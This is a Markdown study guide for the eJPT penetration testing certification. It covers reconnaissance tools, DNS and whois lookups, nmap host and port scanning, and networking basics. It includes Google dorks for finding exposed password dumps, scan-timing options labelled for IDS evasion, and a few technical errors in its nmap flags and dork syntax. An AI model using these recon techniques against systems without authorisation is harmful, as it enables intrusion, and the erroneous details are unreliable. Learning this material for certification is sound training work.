

# eJPT Study Notes

Author: Samuel Pérez López

# Introduction

These notes are intended to serve as a comprehensive guide for the eJPT (Junior Penetration Tester) certification. They cover various aspects of the certification, including assessment methodologies, host and network auditing, host and network penetration testing, and web application penetration testing.

# Table of Contents

1. **Assessment Methodologies**
   - [Information Gathering](#information-gathering)
      - [Introduction To Information Gathering](#introduction-to-information-gathering)
      - [Passive Information Gathering](#passive-information-gathering)
         - [Website Recon & Footprinting](#website-recon--footprinting)
         - [Whois Enumeration](#whois-enumeration)
         - [Website Footprinting With Netcraft](#website-footprinting-with-netcraft)
         - [DNS Recon](#dns-recon)
         - [WAF With wafw00f](#waf-with-wafw00f)
         - [Subdomain Enumeration With Sublist3r](#subdomain-enumeration-with-sublist3r)
         - [Google Dorks](#google-dorks)
         - [Email Harvesting With theHarvester](#email-harvesting-with-theharvester)
         - [Leaked Password Databases](#leaked-password-databases)
      - [Active Information Gathering](#active-information-gathering)
         - [DNS Zone Transfers](#dns-zone-transfers)
         - [Host Discovery](#host-discovery)
         - [Port Scanning](#port-scanning)
   - [Footprinting & Scanning](#footprinting-and-scanning)
      - [Introduction to Footprinting & Scanning](#introduction-to-footprinting-and-scanning)
      - [Networking Primer](#networking-primer)
         - [Networking Fundamentals](#networking-fundamentals)
         - [Network Layer](#network-layer)
         - [Transport Layer](#transport-layer)
      - [Host Discovery](#host-discovery)
         - [Network Mapping](#network-mapping)
         - [Host Discovery Techniques](#host-discovery-techniques)
         - [Ping Sweeps](#ping-sweeps)
         - [Host Discovery With Nmap](#host-discovery-with-nmap)
      - [Port Scanning](#port-scanning)
         - [Port Scanning With Nmap](#port-scanning-with-nmap)
         - [Service Version & OS Detection](#service-version--os-detection)
         - [Nmap Scripting Engine (NSE)](#nmap-scripting-engine-nse)
      - [Evasion, Scan Performance & Output](#evasion-scan-performance--output)
         - [Firewall Detection & IDS Evasion](#firewall-detection--ids-evasion)
         - [Optimizing Nmap Scans](#optimizing-nmap-scans)
         - [Nmap Output Formats](#nmap-output-formats)
   - [Enumeration](#enumeration)
      - [Introduction to Enumeration](#introduction-to-enumeration)
      - [Nmap Scripting Engine (NSE)](#nmap-scripting-engine-nse)
         - [Port Scanning & Enumeration with Nmap](#port-scanning-enumeration-with-nmap)
         - [Importing Nmap Scan Results into MSF](#importing-nmap-scan-results-into-msf)
         - [Port Scanning with Auxiliary Modules](#port-scanning-with-auxiliary-modules)
      - [Service Enumeration](#service-enumeration)
         - [FTP Enumeration](#ftp-enumeration)
         - [SMB Enumeration](#smb-enumeration)
         - [Web Server Enumeration](#web-server-enumeration)
         - [MySQL Enumeration](#mysql-enumeration)
         - [SSH Enumeration](#ssh-enumeration)
         - [SMTP Enumeration](#smtp-enumeration)
   - [Assessment Methodologies Vulnerability Assessment](#assessment-methodologies-vulnerability-assessment)
      - [Vulnerability Assessment](#vulnerability-assessment)
         - [Overview of Windows Vulnerabilities](#overview-of-windows-vulnerabilities)
         - [Frequently Exploited Windows Services](#frequently-exploited-windows-services)
         - [Vulnerability Scanning with MSF](#vulnerability-scanning-with-msf)
         - [WebDAV Vulnerabilities](#webdav-vulnerabilities)
      - [Vulnerability Analysis](#vulnerability-analysis)
         - [Vulnerability Analysis: EternalBlue](#vulnerability-analysis-eternalblue)
         - [Vulnerability Analysis: BlueKeep](#vulnerability-analysis-bluekeep)
         - [Pass-the-Hash Attacks](#pass-the-hash-attacks)
         - [Frequently Exploited Linux Services](#frequently-exploited-linux-services)
         - [Vulnerability Analysis: Shellshock](#vulnerability-analysis-shellshock)
      - [Vulnerability Scanning](#vulnerability-scanning)
         - [Vulnerability Scanning with Nessus](#vulnerability-scanning-with-nessus)
         - [Web App Vulnerability Scanning with WMAP](#web-app-vulnerability-scanning-with-wmap)
         

2. **Host & Networking Auditing**
   - [Auditing Fundamentals](#auditing-fundamentals)

3. **Host & Network Penetration Testing**
   - [System/Host Based Attacks](#systemhost-based-attacks)
   - [Network-Based Attacks](#network-based-attacks)
   - [The Metasploit Framework (MSF)](#the-metasploit-framework-msf)
   - [Exploitation](#exploitation)
   - [Post-Exploitation](#post-exploitation)
   - [Social Engineering](#social-engineering)

4. **Web Application Penetration Testing**
   - [Introduction to the Web and HTTP Protocol](#introduction-to-the-web-and-http-protocol)

# **Assessment Methodologies**

## **Information Gathering**

Information gathering is the first step of any penetration test and is arguably the most important as all other phases rely on the information obtained about the target during the information gathering phase. This course will introduce you to information gathering and will cover the process of performing both passive and active information gathering by leveraging various tools and techniques to obtain as much information as possible from a target.

### **Introduction To Information Gathering**

Information gathering is the first step of any penetration test and involves gathering or collecting information about an individual, company, website or system that you are targeting. It is typically broken into passive and active information gathering.

### **Passive Information Gathering**

- Identifying IP addresses and DNS info
- Identifying domain names and ownership info
- Identifying email addresses and social media profiles
- Identifying web technologies being used on target sites
- Identifying subdomains

#### **Website Recon & Footprinting**

The `host` command is a simple command-line utility in Unix/Linux systems that is used to perform DNS lookups. You can use it to find the IP address associated with a domain, identify the mail server, and more. Here's an example of how to use the `host` command to get the IP address of a domain:

```bash
host -a <url> 
```

If you see two IP addresses in the output, it could indicate that the target is using a proxy or a Content Delivery Network (CDN) like Cloudflare. These services can provide an additional layer of protection by hiding the real IP address of the server.

Once you access the website, search for:
- The `/robots.txt` file, which guides web crawlers on which site areas to avoid. It's used to keep certain website parts out of search engine indexing. It can reveal areas of the site that the administrators don't want to be indexed and might contain private data or functionality. 
- The `/sitemap.xml` file, which helps search engines understand the structure of the website and find all the important pages. This can help an attacker understand the structure of the site more quickly and identify potential areas to probe for vulnerabilities. 

For more information about the technologies used on a website or for website analysis, it would be advisable to add plugins and programs such as:
- `BuiltWith` 
- `Wappalyzer`
- `whatweb`
- `HTTrack`

#### **Whois Enumeration**

`Whois` is a protocol that is used to query databases to obtain information about the registration of a domain name, an IP address block, or an autonomous system. This information can include the owner of the domain, the contact information, and the nameservers. Whois Enumeration is a process used in information gathering where a whois lookup is performed on a target domain to gather detailed information about the domain. You can use the command:

```bash
whois whois {url/ip}
```

Alternatively, you can use many websites such as:
- [who.is](https://who.is/)
- [whois.com](https://www.whois.com/)

#### **Website Footprinting With Netcraft**

[Netcraft](https://sitereport.netcraft.com/) is a web services company offering tools for cybersecurity and web server surveys. Its Site Report tool is particularly useful for penetration testers, providing detailed information about a website's technologies, which aids in identifying potential vulnerabilities during the reconnaissance phase of a penetration test. 

#### **DNS Recon**

`dnsrecon` is a powerful DNS (Domain Name System) enumeration script designed for penetration testers and security professionals. It is written in Python and provides the ability to perform:
- Standard DNS queries (A, AAAA, SOA, MX, TXT, and more)
- Zone transfers
- Top-level domain (TLD) expansion
- Reverse lookups for a range of IP addresses
- Subdomain enumeration
- DNS cache snooping
- DNSSEC zone walking

It can be used like this:

```bash
dnsrecon -d <url>
```

Another useful resource for DNS enumeration is the website [DNSDumpster](https://dnsdumpster.com/). It's an online tool that provides free domain research services. By simply entering a target domain, DNSDumpster generates a comprehensive map of DNS records, visualizing the connections between different components. 

#### **WAF With wafw00f**

A `WAF` or `Web Application Firewall` is a specific form of firewall that helps protect web applications by filtering and monitoring HTTP traffic between a web application and the Internet. It typically protects web applications from attacks such as cross-site forgery, cross-site-scripting (XSS), file inclusion, and SQL injection, among others. `wafw00f` is a tool used to identify and detect what WAF a website is using. The tool works by sending a series of tests to the target site and then analyzing the responses to identify the WAF. You can use it in terminal:

```bash
wafw00f -a <url>
```

#### **Subdomain Enumeration With Sublist3r**

`sublist3r` is a Python tool designed to enumerate website subdomains. It uses a variety of techniques and sources to gather subdomain names, including search engines like Google, Yahoo, Bing, and Baidu, as well as services like Netcraft, Virustotal, ThreatCrowd, DNSdumpster, and ReverseDNS. Sublist3r also supports multithreading for faster results, and can integrate with the dnsrecon tool to conduct DNS queries and zone transfers on the discovered subdomains. It can be used liek this:

```bash
sublist3r -d <url> 
```

#### **Google Dorks**

This technique is employed to discover specific data associated with an organization that's publicly available on the Internet, typically through web pages or applications. These resources are indexed based on their front-end components. As security practices evolve and companies respond to vulnerability reports, older methods (often referred to as 'dorks') used for this kind of information gathering are likely to be replaced with newer, more effective techniques. This continuous evolution is part of an ongoing effort to close off potential security loopholes. They work the following way: `command:query`
 
- `site:<url>` → Searches only pages within the specified domain (e.g., site:ull.es, site:gov ...)
- `filetype:<extension> = ext:<extension>` → Filters by file type (e.g., filetype:pdf, ext:txt, filetype:sql ...)
- `define:<word>` → Displays definitions from web pages for the specified word
- `link:<url>` → Displays pages that link to the specified URL
- `cache:<url>` → Displays the cached version of the specified URL that Google has stored ([WayBack Machine](https://archive.org/))
- `info:<url>` → Presents information about the web page corresponding to the specified URL
- `related:<url>` → Google will display pages similar to the one specified by the URL
- `(all)inurl:<word>` → Searches for pages that contain the specified word in their URL (e.g., inurl:index.php?id=)
- `(all)intitle:<word>` → Searches for the specified word in the page titles (e.g., allintitle:restricted, intitle:index of)
- `(all)intext:<word>` → Shows results for texts that contain the specified word
- `(all)inanchor:<word>` → Displays pages linked by anchors where the text contains the specified word
- Boolean operators:
    - `"X"` → Specifically searches for the text string X (e.g., "MySQL dump")
    - `"X" (Y)` → Searches in the text where Y appears (e.g., "MySQL dump" (password))
    - `X-Y` → Excludes Y from the search (e.g., gmail-hotmail)
    - `"X" / "Y"` → / = AND (e.g., "Index of" / "chat/logs")
    - `"X" | "Y"` → | = OR (e.g., password|pass|passwd|pwd)
    - `*` → Used as a wildcard to replace a word
    - `+` → Allows to include words, accents, dieresis

Might be useful: [Google Hacking Database (GHDB)](https://www.exploit-db.com/google-hacking-database)

#### **Email Harvesting With theHarvester**

`theHarvester` is a tool designed to gather publicly available information on a target, such as emails, subdomains, hosts, employee names, open ports, and banners from different public sources like search engines, PGP key servers, and the SHODAN database. It can be used like this:

```bash
theHarvester -d <url>
```

Other tools that are useful:
- [Phonebook](https://phonebook.cz/) 
- [Censys](https://search.censys.io/) - [Queries](https://search.censys.io/search/examples?resource=hosts&utm_medium=email&_hsmi=131003068&_hsenc=p2ANqtz--90D7fxWSYpNNnBzwQcQLwzEtI1hv_qktKGVZNpfaFDxgL26F21FT_HgJUyIGy6AhzJhFkNscpkTBPYqTelsKz0fyYyg&utm_content=131003068&utm_source=hs_automation)
- [Shodan](https://www.shodan.io/dashboard?language=en) - [Queries](https://github.com/jakejarvis/awesome-shodan-queries)

#### **Leaked Password Databases**

[have i been pwned?](https://haveibeenpwned.com/) is a website and service that allows internet users to check if their personal data has been compromised by data breaches. The service collects and analyzes hundreds of database dumps and pastes containing information about billions of leaked accounts, and allows users to search for their own information by entering their username or email address.

### **Active Information Gathering**

- Discovering open ports on target systems
- Learning about the internal infrastructure of a target network or organization
- Enumerating info from target systems

#### **DNS Zone Transfers**

`DNS (Domain Name System)` is a protocol that maps domain names to their respective IP addresses. This system makes it easier for users to remember and access websites without needing to know the specific IP addresses. Public DNS servers, like those provided by Cloudflare (1.1.1.1) and Google (8.8.8.8), maintain records of almost all domains on the internet. DNS records come in various types:

- `A` - Resolves a hostname or domain to an IPv4 address
- `AAAA` - Resolves a hostname or domain to an IPv6 address
- `NS`- Reference to the domains nameserver
- `MX` - Resolves a domain to a mail server
- `CNAME` - Used for domain aliases
- `TXT` - Text records
- `HINFO` - Host information
- `SOA` - Domain authority
- `SRV` - Service records
- `PTR` - Resolves an IP address to a hostname

`DNS interrogation` is the process of enumerating DNS records for a specific domain, providing valuable information like IP addresses, subdomains, and mail server addresses. `DNS Zone Transfer` is a process used to copy zone files from one DNS server to another. If misconfigured, this can be exploited by attackers to gain a comprehensive view of an organization's network layout, potentially revealing internal network addresses.

DNS can work by changing the `/etc/hosts` file. This file is a simple text file that associates IP addresses with hostnames, one line per IP address. It is used by the operating system to map hostnames to IP addresses. When you type a URL into your browser, the operating system will first look at the /etc/hosts file to see if there's an associated IP address. If there is, it will direct the traffic to that IP address. If not, it will then use the DNS servers configured on your system to resolve the hostname. For each host a single line should be present with the following information:

```bash
<ip> <hostname> <alias>
```

For example:
```
192.168.1.10 mywebsite.com www
```

We can actively enumerate the different DNS records using the tool `DNSenum` or `dig`like this:

```bash
dnsenum <url>
```

```bash
dig <zone_transfer_switch> <@server> <url>
```

Here you can see an example of [zone transfer](https://digi.ninja/projects/zonetransferme.php).

#### **Host Discovery**

`Nmap`, short for Network Mapper, is a free and open-source tool for network discovery and security auditing. It is used to discover hosts and services on a computer network, thus creating a "map" of the network. Nmap can be used to monitor single hosts as well as vast networks that encompass hundreds of thousands of machines and subnets. Some of the features of Nmap include:

- `Host discovery`: Identifying hosts on a network. For example, listing the hosts that respond to TCP and/or ICMP requests or have a particular port open.
- `Port scanning`: Enumerating the open ports on target hosts.
- `Version detection`: Interrogating network services on remote devices to determine application name and version number.
- `OS detection`: Determining the operating system and hardware characteristics of network devices.
- `Scriptable interaction with the target`: Using Nmap Scripting Engine (NSE) and Lua programming language, you can automate a wide variety of networking tasks.

You can see your ip address with the command:

```bash
ip a
```

To generate a list of systems on the network, along with the hosts that responded to the host discovery probes, you can use `nmap` or `netdiscover`. By default, `nmap` sends an ICMP echo request, a TCP SYN to port 443, a TCP ACK to port 80, and an ICMP timestamp request. On the other hand, `netdiscover` utilizes ARP requests.

```bash
sudo nmap -sn <ip/subnet>
```

```bash
sudo netdiscover -i <interface> -r <ip/subnet>
```

#### **Port Scanning**

To conduct a comprehensive port scan using nmap, the following command can be utilized:

```bash
nmap -p- -Pn -F -vvv -sCV -O -sC -T5 <ip>
```

This command performs a TCP port scan on the specified IP address which can provide valuable information about the services running on that system and potentially reveal vulnerabilities that could be exploited.

- The `-p-` option instructs Nmap to scan all 65535 ports. Without this option, Nmap would only scan the most commonly used 1000 ports.
- The `-Pn` option in Nmap is often used when scanning systems, especially Windows, as it bypasses the host discovery phase and proceeds directly to the scan. This is useful when the target system ignores or denies ICMP echo requests, which are typically used for host discovery.
- The `-F` option enables fast mode, which speeds up the scan by limiting it to fewer than 100 ports. This can be useful for quick, high-level audits of a system or network.
- The `-sU` option instructs Nmap to perform a UDP scan, which can be useful for identifying open UDP ports that could be vulnerable to exploitation.
- The `-vvv` option increases the verbosity level of Nmap's output. This means that Nmap will provide more detailed information about the scan as it progresses. The more `v` characters you include in the option (`-v`, `-vv`, `-vvv`, etc.), the more verbose the output.
- The `-sV` option enables version detection in Nmap. This instructs Nmap to interact with the open ports it finds in an attempt to determine the version of the application that is running and listening on each port.
- The `-O` option enables OS detection in Nmap. This instructs Nmap to use a variety of techniques to determine the operating system of the target host. This can be useful for identifying potential vulnerabilities specific to the detected operating system.
- The `-sC` option instructs Nmap to run a script scan using the default set of scripts. Nmap's Scripting Engine can perform a wide variety of tasks such as advanced version detection, vulnerability detection, and more. This option can be useful for automating a wide range of networking tasks.
- The `-T` option adjusts the timing template for Nmap. It accepts a number (0-5) or a name. The options are:
  - `-T0` (paranoid): Suitable for IDS evasion. Slowest scan speed.
  - `-T1` (sneaky): Suitable for IDS evasion. Slow scan speed.
  - `-T2` (polite): Slows down the scan to use less bandwidth and target machine resources.
  - `-T3` (normal): The default scanning speed.
  - `-T4` (aggressive): Speeds up the scan, but may miss some information.
  - `-T5` (insane): Fastest scan speed. Requires a fast and reliable network connection.
- The `-o` option is used to specify the output format of the scan results. Nmap supports several output formats, including:
  - `-oN` (Normal): This is the standard and most human-readable output format.
  - `-oX` (XML): This format can be parsed by software, including Nmap's own Zenmap GUI.
  - `-oG` (Grepable): This format is easily parsed by Unix/Linux tools such as grep, awk, and cut.
  - `-oA` (All): This option saves the results in all three of the above formats at once.

The ports on a networked computer can be in one of three states:

- `Open`: It means that the program or service assigned to that port is listening for connections/packets and ready to accept them at any time.
- `Filtered`: The system has received and discarded the packet. It means that a firewall, filter, or other network obstacle is blocking the port.
- `Closed`: They respond to probes, but there is no application listening on them. They can sometimes be useful to attackers, as they indicate that the host is up and running and has not been firewalled off.

## **Footprinting and Scanning**

In the realm of penetration testing, Network Scanning & Footprinting stands as a crucial phase, wielding significant influence over the test's success. This process involves identifying hosts, scanning for open ports, and discerning services and operating systems—a skill pivotal for the subsequent exploitation phase. To master these techniques, a foundational understanding of networks and protocols is imperative. This comprehensive course begins by introducing Networking and the OSI model, progressing to the Network and Transport Layers, covering key protocols like TCP/IP, ICMP, and UDP.

### **Introduction to Footprinting and Scanning**

- Introduction To Network Mapping
- Networking Fundamentals
- Host Discovery With Nmap
- Port Scanning With Nmap
- Host Fingerprinting With Nmap
- Introduction To The Nmap Scripting Engine (NSE)
- Firewall Detection & Evasion With Nmap
- Nmap Scan Timing & Performance
- Nmap Output & Verbosity

#### **Active Information Gathering**

The methodology in pentesting is something like:

<p>

Active information gathering is a phase in penetration testing where the tester directly interacts with the target system or network to collect data and identify potential vulnerabilities. This phase, which goes beyond passive reconnaissance, may involve scanning, probing, and directly interacting with network services.

### **Networking Primer**

This section serves as a preliminary guide to the field of networking. It's designed to provide the foundational knowledge necessary for understanding more complex networking concepts and tasks. This section might cover topics such as the basics of network protocols, the structure and function of different network layers, and the principles of network communication.

#### **Networking Fundamentals**

In `computer networking`, `hosts` communicate using `network protocols`, enabling systems with different hardware and software to interact effectively. Network protocols cater to various services and functionalities. The main aim of networking is to exchange information between networked computers through packets. Packets, which are streams of bits transmitted as electrical signals on physical media like `Ethernet` or `Wi-Fi`, are interpreted as bits (zeros and ones) that form the information. This process facilitates effective data exchange.

Every packet in all protocols has the following structure: `Header` and `Payload`. The `Header` has a protocol-specific structure. This ensures that the receiving host can correctly interpret the `Payload` and handle the overall communication. The `Payload` is the actual information being sent. It could be something like part of an email message or the content of a file during a download.

The `OSI (Open Systems Interconnection) Model`
- The OSI Model is a conceptual framework that standardizes the functions of a telecommunication or computing system into seven abstraction layers.
- Developed by the International Organization for Standardization (ISO), it facilitates communication between different systems and devices, ensuring interoperability and understanding across a broad range of networking technologies.
- The OSI Model is divided into seven layers, each representing a specific functionality in the process of network communication.
- The OSI model serves as a guideline for developing and understanding network protocols and communication processes. 
- While it is a conceptual model, it helps in organizing the complex task of network communication into manageable and structured layers. 
- The OSI model is not a strict blueprint for every networking system but rather a reference model that aids in understanding and designing network architectures.

| OSI Layer | Function | Examples |
|-----------|----------|----------|
| 7. Application Layer | Provides network services directly to end-users or applications. | HTTP, FTP, IRC, SSH, DNS |
| 6. Presentation Layer | Translates data between the application layer and lower layers. Responsible for data format translation, encryption, and compression to ensure that data is presented in a readable format. | SSL/TLS, JPEG, GIF, SSH, IMAP |
| 5. Session Layer | Manages sessions or connections between applications. Handles synchronization, dialog control, and token management. (Interhost communication) | APIs, NetBIOS, RPC |
| 4. Transport Layer | Ensures end-to-end communication and provides flow control. | TCP, UDP |
| 3. Network Layer | Responsible for logical addressing and routing. (Logical Addressing) | IP, ICMP, IPSec |
| 2. Data Link Layer | Manages access to the physical medium and provides error detection. Responsible for framing, addressing, and error checking of data frames. (Physical addressing) | Ethernet, PPP, Switches etc |
| 1. Physical Layer | Deals with the physical connection between devices. | USB, Ethernet Cables, Coax, Fiber, Hubs etc |

#### **Network Layer**

The `Network Layer` (Layer 3) of the OSI model is responsible for logical addressing, routing, and forwarding data packets between devices across different networks. Its primary goal is to determine the optimal path for data to travel from the source to the destination, even if the devices are on separate networks. The Network Layer abstracts the underlying physical network, enabling the creation of a cohesive internetwork. Several key protocols operate at the Network Layer of the OSI model. Here are some prominent Network Layer protocols:

1. Internet Protocol (IP)
   - Handles logical addressing, routing, and data packet fragmentation and reassembly.
   - IPv4
     - Uses 32-bit addresses (e.g., 192.168.0.1).
     - Limited address space led to the development of IPv6.
     - The vast majority of networks run IP version 4 (IPv4). They consist of four bytes, or octets where a dot delimits every octet in the address. There are  some reserved address ranges. You can find the details about the special use of IPv4 addresses in [RFC5735](https://tools.ietf.org/html/rfc5735):
         - `0.0.0.0 – 0.255.255.255`: Represents "this" network.
         - `127.0.0.0 – 127.255.255.255`: Represents the local host (e.g., your computer).
         - `192.168.0.0 – 192.168.255.255`: Reserved for private networks.
   - IPv6
     - Uses 128-bit addresses (e.g., 2001:0db8:85a3:0000:0000:8a2e:0370:7334).
     - Provides a much larger address space than IPv4.
   - IP Functionality
     - *Logical Addressing*: Identifies devices on a network.
     - *Packet Structure*: Organizes data into packets with a header and payload.
     - *IP Header Format*: Contains key information for packet delivery.
     - *Fragmentation and Reassembly*: Breaks down and rebuilds packets for efficient transmission.
     - *IP Addressing Types*: Addresses can be unicast, broadcast, or multicast.
     - *Subnetting*: Divides a large network into smaller subnets for efficiency and security.
2. Internet Control Message Protocol (ICMP)
   - Associated with IP.
   - Used for error reporting and diagnostics.
3. Dynamic Host Configuration Protocol (DHCP)
   - Dynamically assigns IP addresses to network devices.

| IPv4 Header Fields | Purpose |
| --- | --- |
| Version (4 bits) | Indicates the version of the IP protocol being used. For IPv4, the value is 4. |
| Header Length (4 bits) | Specifies the length of the IPv4 header in 32-bit words. The minimum value is 5 (20-byte header), and the maximum is 15 (60-byte header). |
| Type of Service (8 bits) | Originally designed for specifying the quality of service. Includes fields such as Differentiated Services Code Point (DSCP) and Explicit Congestion Notification (ECN) for packet priority and congestion control. |
| Total Length (16 bits) | Represents the total size of the IP packet, including both the header and the payload (data). The maximum size is 65,535 bytes. |
| Identification (16 bits) | Used for reassembling fragmented packets. Each fragment of a packet is assigned the same identification value. |
| Flags (3 bits) | Includes three flags related to packet fragmentation: Reserved (bit 0), Don't Fragment (DF, bit 1), and More Fragments (MF, bit 2). |
| Time-to-Live (TTL, 8 bits) | Represents the maximum number of hops (routers) a packet can traverse before being discarded. It is decremented by one at each hop. |
| Protocol (8 bits) | Identifies the higher-layer protocol that will receive the packet after IP processing. Common values include 6 for TCP, 17 for UDP, and 1 for ICMP. |
| Source IP Address (32 bits) | Specifies the IPv4 address of the sender (source) of the packet. |
| Destination IP Address (32 bits) | Specifies the IPv4 address of the intended recipient (destination) of the packet. |

<p>

#### **Transport Layer**

The `Transport Layer`, which is the fourth layer of the `OSI (Open Systems Interconnection)` model, plays a crucial role in facilitating communication between two devices across a network. This layer is responsible for ensuring `reliable, end-to-end communication`. It handles tasks such as `error detection`, `flow control`, and `segmentation` of data into smaller units. The primary responsibility of the `Transport Layer` is to provide `end-to-end communication` and ensure the `reliable and ordered delivery` of data between two devices on a network. There are two protocols:

- `TCP (Transmission Control Protocol)`: A `connection-oriented` protocol providing reliable and ordered delivery of data. It operates at the Transport Layer of the OSI model. It ensures reliable and ordered data transfer between two devices over a network. TCP establishes a virtual circuit for data exchange, uses acknowledgments (ACK) and retransmission for reliable delivery, and reorders any out-of-order data segments before passing them to the application. It uses the `3-Way Handshake` which is a process used to establish a reliable connection between two devices before they begin data transmission and involves a series of three messages exchanged between the sender (client) and the receiver (server): 
   - `SYN (Synchronize)`: The process begins with the client sending a TCP segment with the SYN (Synchronize) flag set. This initial message indicates the client's intention to establish a connection and includes an initial sequence number (ISN), which is a randomly chosen value.
   - `SYN-ACK (Synchronize-Acknowledge)`: Upon receiving the SYN segment, the server responds with a TCP segment that has both the SYN and ACK (Acknowledge) flags set. The acknowledgment (ACK) number is set to one more than the initial sequence number received in the client's SYN segment. The server also generates its own initial sequence number.
   - `ACK (Acknowledge)`: Finally, the client acknowledges the server's response by sending a TCP segment with the ACK flag set. The acknowledgment number is set to one more than the server's initial sequence number.

      <p>
   
   At this point, the connection is established, and both devices can begin transmitting data. After the three-way handshake is complete, the devices can exchange data in both directions. The acknowledgment numbers in subsequent segments are used to confirm the receipt of data and to manage the flow of information. The `fields` TCP uses are the `SRC (16 bits)` & `DST (16 bits)` which identifies the source and destination port. It also uses `control flags` to manage various aspects of the communication process. They are included in the TCP header and control different features during the establishment, maintenance, and termination of a TCP connection:

   | Stage | SYN | ACK | FIN |
   |-------|-----|-----|-----|
   | Establishing a Connection | Set (Initiates a connection request) | Clear (No acknowledgment yet) | Clear (No termination request) |
   | Establishing a Connection (Response) | Set (Acknowledges the connection request) | Set (Acknowledges the received data) | Clear (No termination request) |
   | Terminating a Connection | Clear (No connection request) | Set (Acknowledges the received data) | Set (Initiates connection termination) |

   <p>

   TCP utilizes port numbers to differentiate between various services or applications on a device. These port numbers are 16-bit unsigned integers, falling into three distinct ranges. The highest port number available in the TCP/IP protocol suite is `65535`:
   - The range from 0 to 1023, known as `Well-Known Ports`, is reserved for recognized services and protocols, standardized by the Internet Assigned Numbers Authority (`IANA`):
      + 80: HTTP (Hypertext Transfer Protocol)
      + 443: HTTPS (HTTP Secure)
      + 21: FTP (File Transfer Protocol)
      + 22: SSH (Secure Shell)
      + 25: SMTP (Simple Mail Transfer Protocol)
      + 110: POP3 (Post Office Protocol version 3)
   - `Registered Ports` (1024-49151): Port numbers from 1024 to 49151 are registered for specific services or applications. These are typically assigned by the IANA to software vendors or developers for their applications. While they are not standardized, they are often used for well-known services:
      + 3389: Remote Desktop Protocol (RDP)
      + 3306: MySQL Database
      + 8080: HTTP alternative port
      + 27017: MongoDB Database

- `UDP (User Datagram Protocol)`: A connectionless protocol that prioritizes speed over reliability or order of data delivery. This means that UDP does not establish a connection before transmitting data and does not provide any guarantees that data will be delivered in the order it was sent or even delivered at all. Despite these limitations, the simplicity and efficiency of UDP make it an ideal choice for certain types of applications.

`TCP vs UDP`

| Feature | UDP | TCP |
|---------|-----|-----|
| Connection | Connectionless | 3-Way Handshake |
| Reliability | Unreliable, no guaranteed delivery of packets | Reliable, guarantees delivery and order of packets and supports retransmission |
| Header Size | Smaller header size, lower overhead | Larger header size |
| Applications | VOIP, streaming, gaming | HTTP, Email |
| Examples | DNS, DHCP, SNMP, VoIP (e.g., SIP), online gaming. | HTTP, FTP, Telnet, SMTP (email), HTTPS. |

### **Host Discovery**

Host Discovery is a critical initial step in any network interaction. It involves identifying active hosts in a network, which can be servers, routers, or any other devices connected to the network. This process is essential for network management, security auditing, and any other operations that require knowledge of the devices present in a network.

#### **Network Mapping**

The `active information gathering` phase in penetration testing involves `discovering network hosts`, `performing port scanning`, and `enumeration`. Each host on a network has a unique IP address. Penetration testers need to identify which hosts are online, the open ports on these hosts, and their operating systems. This process is known as `Network Mapping`, a critical step in understanding the network's layout, architecture, and potential entry points for exploitation.

In a penetration testing scenario, the tester is given an address block (e.g., 200.200.0.0/16) that could contain up to 65536 hosts. The tester's initial task is to identify active hosts within this range, emphasizing the importance of `network mapping` at the start of the test. Network mapping, crucial when dealing with an unknown network, aims to create a clear picture of the network's architecture and its components. It helps understand the network's structure, the number of systems, their potential roles, and involves identifying the network IP mask and active hosts. In the context of network mapping during penetration testing, key objectives include:

   - `Discovery of Live Hosts`: Identifying active devices and hosts on the network. This involves determining which IP addresses are currently in use.
   - `Identification of Open Ports and Services`: Determining which ports are open on the discovered hosts and identifying the services running on those ports. This information helps pentesters understand the attack surface and potential vulnerabilities.
   - `Network Topology Mapping`: Creating a map or diagram of the network topology, including routers, switches, firewalls, and other network infrastructure elements. Understanding the layout of the network assists in planning further penetration testing activities.
   - `Operating System Fingerprinting`: Determining the operating systems running on discovered hosts. Knowing the operating system helps pentesters tailor their attack strategies to target vulnerabilities specific to that OS.
   - `Service Version Detection`: Identifying specific versions of services running on open ports. This information is crucial for pinpointing vulnerabilities associated with particular service versions.
   - `Identifying Filtering and Security Measures`: Discovering firewalls, intrusion prevention systems, and other security measures in place. This helps pentesters understand the network's defenses and plan their approach accordingly.

`Nmap`, short for Network Mapper, is a widely-used, open-source tool for network scanning. It's primarily used to discover hosts and services on a computer network, detect open ports, and identify potential vulnerabilities. Due to its power and versatility, Nmap has become a staple in the toolkits of security professionals, network administrators, and penetration testers. Nmap's functionality extends across various aspects of network security:

- `Host Discovery`: Nmap is capable of identifying active hosts on a network. It achieves this using techniques such as ICMP echo requests, ARP requests, or TCP/UDP probes.
- `Port Scanning`: Nmap can execute various types of port scans to discover open ports on target hosts.
- `Service Version Detection`: Nmap can identify the versions of services running on open ports. This information is crucial for understanding the software stack and potential vulnerabilities associated with specific versions.
- `Operating System Fingerprinting`: Nmap can attempt to identify the operating systems of target hosts based on characteristics observed during the scanning process.

#### **Host Discovery Techniques**

`Host discovery` is a critical component of penetration testing. It entails the identification of active hosts within a network before proceeding with in-depth exploration and vulnerability assessment. The choice of host discovery techniques can be influenced by various factors, such as the characteristics of the network, the requirement for stealth, and the specific goals of the penetration test. Host discovery techniques are essential in identifying active hosts within a network. Here are some commonly used methods:

- `Ping Sweeps (ICMP Echo Requests)`: This technique involves sending ICMP Echo Requests (ping) to a range of IP addresses to identify live hosts. It's a quick and commonly used method.
- `ARP Scanning`: This technique uses Address Resolution Protocol (ARP) requests to identify hosts on a local network. It's effective in discovering hosts within the same broadcast domain.
- `TCP SYN Ping (Half-Open Scan)`: This method involves sending TCP SYN packets to a specific port (often port 80) to check if a host is alive. If the host is alive, it responds with a TCP SYN-ACK. This technique is stealthier than ICMP ping.
- `UDP Ping`: This technique involves sending UDP packets to a specific port to check if a host is alive. It can be effective for hosts that do not respond to ICMP or TCP probes.
